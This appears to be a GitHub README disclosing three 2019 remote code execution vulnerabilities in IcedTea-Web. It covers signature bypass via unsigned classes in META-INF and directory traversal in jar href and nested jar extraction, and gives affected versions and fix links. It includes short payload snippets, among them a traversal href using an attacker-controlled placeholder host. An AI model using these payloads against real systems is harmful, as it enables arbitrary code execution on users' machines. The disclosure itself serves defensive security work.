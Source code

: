 # icedtea-web-vulnerabilities
Hosting proof of concept exploit code of the remote code execution vulnerabilities in the IcedTea-Web Java webstart implementation.

## IcedTea-Web
IcedTeaWeb is an open source implementation of JSR-56 that is better known as Java Web Start. 
It is currently maintained by RedHat and is included into the Windows packages of OpenJDK by default.

Three security issues were found in ITW, and have been discussed and are going to be fixed.
Those are CVE-2019-10185 CVE-2019-10181 CVE-2019-10182

The vulnerabilities described below could be exploited by man in the middle attackers or parties 
having write permission on where the packages were hosted.

The affected versions are 1.7.2 and below, 1.8.2 and below. 1.6 is also vulnerable and not patched 
due to being EOL.

Some additional info and PoC files can be found here:
https://github.com/irsl/icedtea-web-vulnerabilities


## CVE-2019-10181
In line with the requirements, IcedTea-Web forces presence of signatures on 
webstart projects by default.

However, the implementation considers jar archives fully signed even when
unsigned class files are residing in the META-INF folder. An MitM
attacker could inject extra code to the jar archive and get it invoked
by specifying it via the main-class attribute of application-desc:

```
<application-desc main-class="META-INF.Test" />
```

The dash is not among the allowed characters in Java identifiers, so
this cannot be produced via a legit compiler, but the bytecode
verifier accepts crafted class files with dash in the package name
happyly.

The code would be executed in the Java sandbox.


## CVE-2019-10182
Processing of the href attribute of the jar node was vulnerable to directory 
traversal.

```
<jar href="http://attacker-controlled-site/../../../../../XXX.any" version="2.0"/>
```

Considering the line above, the file XXX.any is saved out of the cache
directory, overwriting the destination if it already exists. This is
effectively an (over)write-what-where primitive on the filesystem,
which could be used to execute arbitrary code (eg. via placing a batch
file in the startup folder).

This was exploitable on Windows, where the operating system normalizes
the paths before traversing them.


## CVE-2019-10185
IcedTea-Web features extracting nested jar files from the primary ones.

The nested jar auto-extraction feature is vulnerable to directory
traversal. Combining this with vuln 2 and crafting jar files with
META-INF/../../../whatever.jar pattern in their zip entries, they
don't need to be signed and are followed and extracted outside of the
cache directory.

By abusing the nested jar extraction feature it was also possible to 
overwrite the main jar itself, so later on when it was actually executed, 
the framework launched external, unsigned arbitrary code with full privileges.


## Links
https://github.com/AdoptOpenJDK/IcedTea-Web

https://icedtea.classpath.org/wiki/IcedTea-Web

https://github.com/AdoptOpenJDK/IcedTea-Web/issues/327

https://access.redhat.com/errata/RHSA-2019:2003
